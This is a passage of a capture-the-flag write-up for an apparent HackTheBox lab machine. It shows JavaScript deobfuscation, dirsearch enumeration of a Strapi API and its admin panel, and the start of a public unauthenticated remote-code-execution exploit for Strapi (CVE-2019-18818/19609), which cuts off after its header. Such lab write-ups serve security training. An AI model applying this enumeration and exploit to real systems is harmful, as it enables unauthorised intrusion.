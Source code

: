 ![](Pasted%20image%2020241219100338.png)

So it was time to apply some [JavaScript Deobfuscation 🎸](/notes/javascript_deobfuscation.md):

![](Pasted%20image%2020241219101306.png)

I discovered a new vhost, so I added it to my known ones:

![](Pasted%20image%2020241219101421.png)

So now I performed some enumeration again with [dirsearch 📁](/notes/tools/dirsearch.md):

```shell
dirsearch -u http://api-prod.horizontall.htb -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e *

[redacted]
[10:15:49] 200 -  507B  - /reviews                                          
[10:15:49] 403 -   60B  - /users                                            
[10:15:49] 200 -  854B  - /admin                                            
[10:15:53] 200 -  507B  - /Reviews                                          
[10:15:59] 403 -   60B  - /Users                                            
[10:16:06] 200 -  854B  - /Admin
```

If we inspect `reviews` we can see all the ones that currently exist:

![](Pasted%20image%2020241219101703.png)

We can see that there are already 3 users: `wail`, `doe` and `john`

I also discovered an admin panel inside `/admin`:

![](Pasted%20image%2020241219101754.png)

I tried some basic combinations, but none was successfull, so I checked for some CVE related to Strapi

## Weaponization

![](Pasted%20image%2020241219102353.png)

So I got the script of the setting password Unauthenticated:

```shell
cp $(locate multiple/webapps/50239.py) .
```

```python
# Exploit Title: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
# Date: 2021-08-30
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://strapi.io/
# Software Link: https://strapi.io/
# Version: Strapi CMS version 3.0.0-beta.17.4 or lower
# Tested on: Ubuntu 20.04
# CVE : CVE-2019-18818, CVE-2019-19609

#!/usr/bin/env python3

import requests
import json
from cmd import Cmd
import sys

if len(sys.argv) != 2:
    print("[-] Wrong number of arguments provided")
```